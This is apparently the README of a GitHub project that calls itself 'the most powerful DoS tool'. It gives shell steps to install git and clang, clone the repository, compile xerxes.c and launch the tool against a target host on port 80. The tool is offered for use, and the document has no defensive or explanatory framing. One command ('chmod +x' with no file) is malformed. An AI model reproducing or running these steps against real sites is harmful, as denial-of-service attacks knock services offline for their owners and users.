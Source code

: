 # XERXES-DoS-tool 
XERXES the most powerful DoS tool Installation: 
$ apt update && apt upgrade 
$ apt install git 
$ apt install clang 
$ git clone https://github.com/aanwae/xerxes 
$ cd xerxes 
$ chmod +x 
$ clang xerxes.c -o xerxes 
$ ./xerxes www.fakesite.com 80

